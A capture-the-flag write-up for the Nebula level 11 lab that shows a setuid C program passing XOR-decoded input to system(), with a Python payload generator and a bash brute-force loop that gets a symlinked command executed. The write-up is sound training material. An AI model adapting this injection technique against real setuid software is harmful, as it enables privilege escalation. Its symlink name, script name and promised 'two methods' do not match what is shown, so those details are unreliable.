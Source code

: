 # Nebula - [LEVEL 11](https://exploit.education/nebula/level-11/)

Level Description:

![level.JPG](images/level.JPG)

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <fcntl.h>
#include <stdio.h>
#include <sys/mman.h>

/*
 * Return a random, non predictable file, and return the file descriptor for
 * it. 
 */

int getrand(char **path)
{
  char *tmp;
  int pid;
  int fd;

  srandom(time(NULL));

  tmp = getenv("TEMP");
  pid = getpid();
  
  asprintf(path, "%s/%d.%c%c%c%c%c%c", tmp, pid,
      'A' + (random() % 26), '0' + (random() % 10),
      'a' + (random() % 26), 'A' + (random() % 26),
      '0' + (random() % 10), 'a' + (random() % 26));

  fd = open(*path, O_CREAT|O_RDWR, 0600);
  unlink(*path);
  return fd;
}

void process(char *buffer, int length)
{
  unsigned int key;
  int i;

  key = length & 0xff;

  for(i = 0; i < length; i++) {
      buffer[i] ^= key;
      key -= buffer[i];
  }

  system(buffer);
}

#define CL "Content-Length: "

int main(int argc, char **argv)
{
  char line[256];
  char buf[1024];
  char *mem;
  int length;
  int fd;
  char *path;

  if(fgets(line, sizeof(line), stdin) == NULL) {
      errx(1, "reading from stdin");
  }

  if(strncmp(line, CL, strlen(CL)) != 0) {
      errx(1, "invalid header");
  }

  length = atoi(line + strlen(CL));
  
  if(length < sizeof(buf)) {
      if(fread(buf, length, 1, stdin) != length) {
          err(1, "fread length");
      }
      process(buf, length);
  } else {
      int blue = length;
      int pink;

      fd = getrand(&path);

      while(blue > 0) {
          printf("blue = %d, length = %d, ", blue, length);

          pink = fread(buf, 1, sizeof(buf), stdin);
          printf("pink = %d\n", pink);

          if(pink <= 0) {
              err(1, "fread fail(blue = %d, length = %d)", blue, length);
          }
          write(fd, buf, pink);

          blue -= pink;
      }    

      mem = mmap(NULL, length, PROT_READ|PROT_WRITE, MAP_PRIVATE, fd, 0);
      if(mem == MAP_FAILED) {
          err(1, "mmap");
      }
      process(mem, length);
  }

}
```

# Nebula - [LEVEL 11](https://exploit.education/nebula/level-11/) - Solution

We have two methods to solve this challenge.

By observing the code we can see that if ```Content-Length``` is smaller than ```1024``` bytes -  we get into the ```if``` statement and the binary read ```length``` bytes and then go to ``` process``` function which is:
```c
void process(char *buffer, int length)
{
  unsigned int key;
  int i;

  key = length & 0xff;

  for(i = 0; i < length; i++) {
      buffer[i] ^= key;
      key -= buffer[i];
  }

  system(buffer);
}
```

We can create a symbol link called ```c``` on ```/tmp``` to ```getflag``` command:
```console
level11@nebula:/tmp$ ln -s /bin/getflag g
```

So according to the ```process``` function, We need to XOR the character ```c``` with ```1``` to make ```process``` XOR it again to ```c```, We can create the payload using the following code:
```python
level11@nebula:/tmp$ cat solve.py
symlink="c"
key = len(symlink) & 0xff

enc_command = chr(key ^ ord(symlink[0]))
print("Content-Length: 1")
print(enc_command)
```

And by running that we get:
```console
level11@nebula:/tmp$ python solve.py | /home/flag11/flag11
sh: $'cP\246': command not found
level11@nebula:/tmp$ python solve.py | /home/flag11/flag11
sh: $'c@\206': command not found
level11@nebula:/tmp$ python solve.py | /home/flag11/flag11
sh: $'c\220\251': command not found
```

The problem is that we don't have the ```\x00``` byte to delimit the command to be executed, But as we can see for each run we get a random byte after ```c```, So we can run it until we get the ```\x00``` byte with the following bash script:
```bash
export TEMP=/tmp

while [ 1 ];
do
        res=$(python solve2.py | /home/flag11/flag11 | grep "getflag" 2>/dev/null)
        if [[ $res == *"getflag"* ]]; then
                echo $res
                break
        fi
done

```

And by running the bash script we get:
```console
level11@nebula:/tmp$ bash runner.sh
sh: $'c\340\327': command not found
sh: $'c\300\320': command not found
sh: $'c\300\214': command not found
sh: $'c\220x': command not found
getflag is executing on a non-flag account, this doesn't count

```

NOTE: For some reason, it runs as ```level11``` instead ```flag11```.